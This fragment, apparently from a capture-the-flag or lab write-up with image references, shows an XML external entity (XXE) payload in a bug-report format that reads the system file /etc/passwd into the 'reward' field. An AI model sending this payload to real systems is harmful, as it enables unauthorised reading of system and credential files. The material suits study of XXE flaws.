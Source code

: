 ![](./IMG/12.png)
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY example SYSTEM 'file:////etc/passwd'> ]>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>&example;</reward>
		</bugreport>
```

![](./IMG/13.png)
